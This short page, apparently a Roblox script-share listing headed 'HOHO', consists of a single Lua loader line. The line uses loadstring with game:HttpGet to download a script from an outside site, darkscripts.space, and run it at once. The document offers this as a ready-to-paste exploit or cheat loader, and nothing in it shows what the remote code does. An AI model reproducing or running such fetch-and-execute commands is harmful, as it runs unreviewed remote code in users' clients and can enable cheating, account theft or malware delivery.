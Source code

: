 # HOHO
loadstring(game:HttpGet('https://darkscripts.space/scripts/5abe4c2e-0e45-4556-9190-bbc4b7c7c78e_967061189739831417.lua',true))()

